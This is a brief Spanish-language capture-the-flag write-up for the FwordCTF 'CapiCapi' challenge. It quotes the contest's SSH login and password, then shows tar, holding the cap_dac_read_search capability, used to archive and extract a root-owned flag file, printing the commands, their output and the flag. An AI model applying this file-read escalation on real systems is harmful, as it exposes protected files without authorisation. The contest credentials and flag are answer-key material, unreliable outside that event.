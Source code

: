 # Fword
## Bash
### CapiCapi
*You have to do some privilege escalation in order to read the flag! Use the following SSH credentials to connect to the server, each participant will have an isolated environment so you only have to pwn me!
SSH Credentials
ssh -p 2222 ctf@capicapi.fword.wtf
Password: FwordxKahla
Author: KAHLA*

Nos conectamos a la máquina objetivo y vemos que hay un flag.txt en el /home de nuestro usuario owneado por el root, despues de checkear vectores normales encontramos una capabilite poco comun
```bash
/usr/bin/tar = cap_dac_read_search+ep
```
Con esto podremos leer la flag sin problema al igual que cualquier otro archivo owned por root, ejecutamos lo siguiente
```bash
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -cvf flag.tar /home/user1/flag.txt # Con esto obtenmos una copia comprimida del archivo
/usr/bin/tar: Removing leading '/' from member names
/home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -xvf flag.tar # Con esto lo descomprimimos
home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ cat home/user1/flag.txt # Leemos la flag
FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
```

